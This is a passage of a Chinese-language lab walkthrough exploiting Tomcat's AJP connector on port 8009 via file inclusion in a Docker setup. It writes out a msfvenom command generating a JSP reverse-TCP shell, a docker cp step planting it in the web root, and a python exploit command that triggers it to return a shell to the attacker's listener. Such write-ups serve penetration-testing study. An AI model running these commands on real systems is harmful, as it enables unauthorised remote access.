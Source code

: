 成功传上去了

开启 nc 监听

具体可以看这里：

https://blog.csdn.net/qq\_30653631/article/details/93749505?utm\_medium=distribute.pc\_aggpage\_search\_result.none-task-blog-2\~aggregatepage\~first\_rank\_v2\~rank\_aggregation-1-93749505.pc\_agg\_rank\_aggregation&utm\_term=Ubuntu%E5%AE%89%E8%A3%85nc&spm=1000.2123.3001.4430

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QarDFGiaHOiatgzSGwmAQZjtj2RDMog7XvAHZ5uvR53ukEPlFHbBPy6r8A/640?wx_fmt=jpeg)

```
<Connector port="8009"protocol="AJP/1.3" redirectPort="8443" />

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa9icRKdgcs7HpiaJuic6pGObCbcY4LUpnZg4SRic9VGKGwcoVoYIBicP1FXg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QarrarLkD3ye3bv9f0yicPbeFLtnrK68Hw13ZAvYiaqV3wT4X9O8YZGZRQ/640?wx_fmt=jpeg)

可以看到成功上线了

**可以和 War 联动是吧 可以和 PUT 联动**

#### 把 shell 弹到 MSF 上

MSF 生成木马

我这边还是上 kali 吧 Ubuntu 不是很顺手

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.175.167 LPORT=4444 R > shell.txt
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa0icStfBgVNwwlHt0LhFjG93Orq7iaUaMffhaWtQLyZvprGZJjZXoR1tg/640?wx_fmt=jpeg)

```
sudo docker cp /home/dayu/Desktop/shell.txt 6c80deb9d194:/usr/local/tomcat/webapps/ROOT
```

去 docker 底层看看

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaHhBoHlCVge0Ez2Plp6fz6nHicAL4nUMaJpoicwfyelbfCd63iawtSicXuQ/640?wx_fmt=jpeg)

上 MSF 开启监听

执行文件包含 RCE

```
python2 文件包含.py 192.168.175.191 -p 8009 -f shell.txt
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaAYFficAc6SI0XdcWnUNFtcax0W7icv6U2dPiaPeYUbPl2ycjGsegtibicIg/640?wx_fmt=jpeg)

可以看到已经拿到 shell 了

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaOTjmJ7TyRbVTfjnP61LZnUNjjTfpslEe5ndriapJ5xuLg9iaG0qrb4EA/640?wx_fmt=jpeg)

